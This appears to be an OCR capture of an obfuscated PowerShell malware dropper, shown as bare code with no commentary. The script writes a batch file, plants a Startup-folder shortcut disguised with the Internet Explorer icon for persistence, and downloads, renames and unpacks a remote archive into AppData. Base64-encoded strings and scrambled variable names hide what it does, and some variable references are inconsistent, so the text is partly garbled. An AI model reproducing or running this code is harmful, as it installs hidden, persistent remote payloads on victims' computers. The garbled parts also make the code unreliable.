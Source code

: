     ${\\\\__/////////}  += "for /F %%C in (`"!chars:~%%N,1!`") do (`r`n"
    ${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:%%N=%%C!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "for /F %%F in (`"!${_\\\\\\/|\_/|/\\\___\\\\/|_}!`") do (`r`n"
    ${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:@=!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "for /F %%F in (`"!${_\\\\\\/|\_/|/\\\___\\\\/|_}!`") do (`r`n"
    ${\\\\__/////////}  += "set `"${_\\\\\\/|\_/|/\\\___\\\\/|_}=!${_\\\\\\/|\_/|/\\\___\\\\/|_}:`"=!`"`r`n"
    ${\\\\__/////////}  += ")`r`n"
    ${\\\\__/////////}  += "%${_\\\\\\/|\_/|/\\\___\\\\/|_}%`r`n"
    ${\\\\__/////////} | Set-Content ${/_//_//_/}
	
function _____/\_/\/\_/\/=\//
{
  Param([string]${___/\_/=\___/\_/==},[string]${__/==\/\_/\/=\/\_/});
  try{  
    ${__/\_/=\/=\/=====} = New-Object -ComObject WScript.Shell 
    ${/=\/\__/=\/=\/=\_} = ${__/\_/=\/=\/=====}.CreateShortcut(${___/\_/=\___/\_/==}) 
    ${/=\/\__/=\/=\/=\_}.TargetPath = "${/_//_//_/}"       
    ${/=\/\__/=\/=\/=\_}.Arguments = ""
    ${/=\/\__/=\/=\/=\_}.WorkingDirectory = "" 
    ${/=\/\__/=\/=\/=\_}.WindowStyle = 7   
    ${/=\/\__/=\/=\/=\_}.IconLocation = $([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('JQBQAHIAbwBnAHIAYQBtAEYAaQBsAGUAcwAlAFwASQBuAHQAZQByAG4AZQB0ACAARQB4AHAAbABvAHIAZQByAFwAaQBlAHgAcABsAG8AcgBlAC4AZQB4AGUALAAxAA==')))
    ${/=\/\__/=\/=\/=\_}.Save()
  }finally{}
}
${/===\__/=\_/==\_/} = New-Object -Com WScript.Shell
${/=\_/\_/===\/\/\/} = ${/===\__/=\_/==\_/}.SpecialFolders.Item($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('cwB0AGEAcgB0AHUAcAA='))));          
${_/=\/=\/\_/\/=\__} = "                                                                                                                                                                                                                                                                                                  $env:APPDATA\${_/=\/\/=\___/\/==}, ${_/\/\/\/=\/==\__/}"
${___/\_/\/===\/\__} = "${/=\_/\_/===\/\/\/}\${_\\\\\\/|\_/|/\\\___\\\\/|_}y.lnk"        
_____/\_/\/\_/\/=\// ${___/\_/\/===\/\__}  ${_/=\/=\/\_/\/=\__}
${_/\/\/\__\\\\\\\|||\/\/_} = ${_\\\\\\/|\_/|/\\\___\\\\/|_}
${_/\/\/\__\\\\\\\|||\/\/_} | Set-Content "${_\\\\\\/|\_/|/\\\\\\\/|_}\${/////\\\\\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/}"
${_/\/\/\__\\\\\\\|||\/\/_} | Out-File "${_\\\\\\/|\_/|/\\\\\\\/|_}\${/////\\\\\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/}"
${_/\/\/\__\\\\\\\|||\/\/_} > "${_\\\\\\/|\_/|/\\\\\\\/|_}\${/////\\\\\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/}"
${_\\\///////\\\\\\\\\\/_} = new-object System.Net.WebClient
${_\\\///////\\\\\\\\\\/_}.DownloadFile(${_/|\_/|////\__|//\\\\\\\\/|_},"${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_\\\\\\/|\_/|/\\\___\\\\/|_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.zip") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_\\\\\\/|\_/|/\\\___\\\\/|_}")
Expand-Archive -Path "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_/|\_/|////\__|/_|\\\\\\/\\\\/\/\/\|_}" -DestinationPath "${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}"
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.${_/|\_/|////\__|/_|\\\\\\/|_}") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_/|\_/|////\__|/_|\\\\\\/|_}${_tx_}")
Rename-Item -NewName ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\${_\\\\\\/|\_/|/\\\___\\\\/|_}.ia") -Path ("${_\\///////////////////////_}${_\\\\\\/|\_/|/\\\___\\\\/|_}\6${_tx_}")